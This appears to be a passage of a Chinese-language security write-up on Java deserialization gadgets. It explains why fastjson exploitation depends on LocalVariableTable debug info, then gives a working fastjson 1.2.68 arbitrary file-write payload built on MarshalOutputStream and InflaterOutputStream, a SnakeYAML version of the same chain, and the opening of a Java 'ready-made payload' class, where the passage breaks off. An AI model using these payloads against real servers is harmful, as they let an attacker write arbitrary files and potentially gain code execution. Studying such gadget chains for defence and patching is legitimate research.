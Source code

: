 [![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241025163356883.png)](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241025163356883.png)

[![img](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241025163345217.png)](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241025163345217.png)

缺失了LocalVeriableTable并不会影响类的正常使用和反射调用，但是会使调试出现问题，无法提供方法中局部变量的名称、类型和作用范围等信息。

ASMUtils.lookupParametersName 方法依赖于 LocalVariableTable 信息来查找方法参数的名称。

https://zhuanlan.zhihu.com/p/263503452

> `LocalVariableTable` 是 Java 字节码中 **调试信息的一部分**，存在于 `.class` 文件中的方法结构内，属于 `Code` 属性的扩展部分。它记录了方法中每个局部变量的 **变量名、作用域、生存期及槽位索引**，但它 **不是必须的**——它仅在编译时启用了调试信息（例如 `javac -g`）时才会生成。

fastjson在调用构造函数时，缺失LocalVariableTable会导致ASMUtils.lookupParametersName报错

目前只发现 CentOS 下的 OpenJDK 8 字节码调试信息中含有 LocalVariableTable。或者是win下的OpenJDK >=11，所以在fastjson中利用环境非常有限

但是snakeYaml调用构造函数并不会用到LocalVariableTable，所以MarshalOutputStream写文件的链子会比较通用，没有jdk限制

fastjson写文件链子：

```json
{
    '@type':"java.lang.AutoCloseable",
    '@type':'sun.rmi.server.MarshalOutputStream',
    'out':
    {
        '@type':'java.util.zip.InflaterOutputStream',
        'out':
        {
           '@type':'java.io.FileOutputStream',
           'file':'dst',
           'append':false
        },
        'infl':
        {
            'input':'你的内容的base64编码'
        },
        'bufLen':1048576
    },
    'protocolVersion':1
}
```

改写为yaml格式：

```yaml
!!sun.rmi.server.MarshalOutputStream [!!java.util.zip.InflaterOutputStream [!!java.io.FileOutputStream [!!java.io.File ["Destpath"],false],!!java.util.zip.Inflater  { input: !!binary base64str },1048576]]
```

Destpath是目的路径，base64str为经过zlib压缩过后的文件内容

一个现成的payload：

```java
package org.exploit.third.SnakeYaml;

//模仿fastjson 1.2.68写文件
import org.yaml.snakeyaml.Yaml;

import java.io.*;
import java.util.Base64;
import java.util.zip.Deflater;


public class SnakeYamlOffInternet {
    public static void main(String [] args) throws Exception {
```